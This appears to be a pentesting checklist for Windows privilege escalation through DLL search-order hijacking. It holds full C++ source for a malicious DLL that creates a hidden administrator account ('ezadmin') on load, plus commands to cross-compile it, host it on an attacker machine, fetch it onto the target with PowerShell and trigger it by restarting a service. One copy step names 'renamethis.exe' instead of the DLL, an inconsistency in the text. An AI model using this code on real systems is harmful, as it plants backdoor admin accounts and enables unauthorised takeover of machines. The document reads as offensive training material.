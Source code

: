 - [ ] Show the PATH environment variable to view the Windows DLL search order on the Target Machine
```
$env:path
```

- [ ] Create C++ DLL binary to add a user into the administrators group on your Kali Machine
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user ezadmin password123! /add");
  	    i = system ("net localgroup administrators ezadmin /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

- [ ] Cross-Compile the C++ Code to a 64-bit DLL on your Kali Machine
```
x86_64-w64-mingw32-gcc mydll.cpp --shared -o myDLL.dll
```

- [ ] Serve the binary on your Kali Machine
```
python3 -m http.server 80
```

- [ ] Download the payload binary on the Target Machine
```
powershell iwr -uri http://192.168.xxx.xxx:80/myDLL.dll -Outfile myDLL.dll
```

- [ ] Copy the DLL to any directory that will hijack the DLL search order on the Target Machine
```
cp renamethis.exe C:\Windows\myDLL.dll
```

- [ ] Restart the service on the Target Machine
```
Restart-Service someService
```
